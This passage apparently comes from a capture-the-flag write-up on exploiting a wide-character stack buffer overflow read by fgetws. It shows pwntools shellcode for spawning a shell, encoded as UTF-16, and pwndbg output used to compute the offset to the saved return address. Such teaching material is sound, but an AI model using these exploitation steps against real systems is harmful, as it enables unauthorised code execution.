 Because the function only copies the lower `16 bits`, it can’t accurately handle characters with higher code points—like `U+10000`—which require more than 16 bits.

![alt text](image-10.png)

And the same goes for `cs:AssemblyTestPage`:

![alt text](image-11.png)

Next is our shellcode, we can use `pwntools` to generate the shellcode, and thanks to pwntools also gave us the tool to decode that shellcode to `UTF-16`

```py
shellcode =  asm(shellcraft.sh()).decode('utf-16')
```

Next is the issue of padding: `fgetws` stores each input character as a wide character, which on our system occupies `4 bytes` instead of the usual 1 byte for ASCII. Therefore, even simple characters use 4 bytes of memory. Since the buffer is declared as wchar_t ws[4002], it allocates `4002 × 4 = 16,008 bytes` in total.
When calculating the offset from the start of the input data to the `saved RIP`, remember that the offset is measured in bytes. Since each wide character occupies `4 bytes`, you must divide the byte offset by 4 to convert it into an offset in terms of wide characters.

```sh
pwndbg> i f
Stack level 0, frame at 0x7ffc6dd0edf0:
 rip = 0x55c72be5279a in ContactSupport; saved rip = 0x11000
 called by frame at 0x7ffc6dd0edf8
 Arglist at 0x7ffc6dd0af58, args:
 Locals at 0x7ffc6dd0af58, Previous frame's sp is 0x7ffc6dd0edf0
 Saved registers:
  rbx at 0x7ffc6dd0ede0, rip at 0x7ffc6dd0ede8
pwndbg> p/x 0x7ffc6dd0ede8-0x7ffc6dd0af60
$1 = 0x3e88
pwndbg> p/x 0x3e88/4
$2 = 0xfa2
```

